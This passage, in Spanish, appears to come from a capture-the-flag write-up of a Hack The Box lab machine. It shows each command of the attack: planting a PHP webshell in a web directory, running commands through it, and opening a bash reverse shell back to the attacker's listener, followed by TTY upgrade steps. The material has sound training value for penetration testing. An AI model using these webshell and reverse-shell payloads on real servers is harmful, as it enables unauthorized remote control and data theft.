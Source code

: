 Dado que hemos verificado que podemos crear archivos en el directorio `/var/www/html` y que la página web interpreta código PHP, el siguiente paso será cargar una webshell para ganar acceso al sistema. De esta forma, podremos ejecutar comandos en el servidor y, si la configuración lo permite, escalar privilegios o ejecutar cualquier otra acción maliciosa.

```bash
gzzcoo@kali:/mnt/html$ echo '<?php system($_GET["cmd"]);?>' > gzzcoo.php
gzzcoo@kali:/mnt/html$ ls -l gzzcoo.php 
-rw-rw-r-- 1 gzzcoo gzzcoo 30 feb 16  2025 gzzcoo.php
```

Una vez que subimos la webshell y verificamos que es capaz de ejecutar comandos, realizamos una prueba con el comando `id` para comprobar los privilegios del usuario bajo el cual se está ejecutando la web. La respuesta muestra que estamos operando bajo el usuario `alex`, con un UID y GID asignados a este usuario.

```bash
❯ curl -s 'http://10.10.11.191/gzzcoo.php?cmd=id'
uid=2017(alex) gid=2017(alex) groups=2017(alex)
```

Nos pondremos en escucha con `nc` para recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Utilizamos la webshell para ejecutar un comando bash que se conectará de vuelta a nuestra máquina en el puerto 443, creando así una reverse shell.

```bash
❯ curl -s 'http://10.10.11.191/gzzcoo.php?cmd=/bin/bash%20-c%20"bash%20-i%20>%26%20/dev/tcp/10.10.16.3/443%200>%261"'
```

Después de ejecutar el comando, nuestra máquina escuchará en el puerto 443 y, al ejecutar el comando en la webshell, recibiremos una conexión inversa que nos proporcionará una shell interactiva en el sistema víctima. Logramos visualizar la flag de **user.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.191] 41772
bash: cannot set terminal process group (1072): Inappropriate ioctl for device
bash: no job control in this shell
alex@squashed:/var/www/html$ cat /home/alex/user.txt
8e4fcac31e**********************
```

Al obtener la reverse shell, mejoramos la calidad de la shell con los siguientes pasos para obtener una TTY interactiva.

```bash
alex@squashed:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
alex@squashed:/var/www/html$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
                              
...[snip]...

alex@squashed:/var/www/html$ export TERM=xterm
alex@squashed:/var/www/html$ export SHELL=bash
alex@squashed:/var/www/html$ stty rows 46 columns 230
```
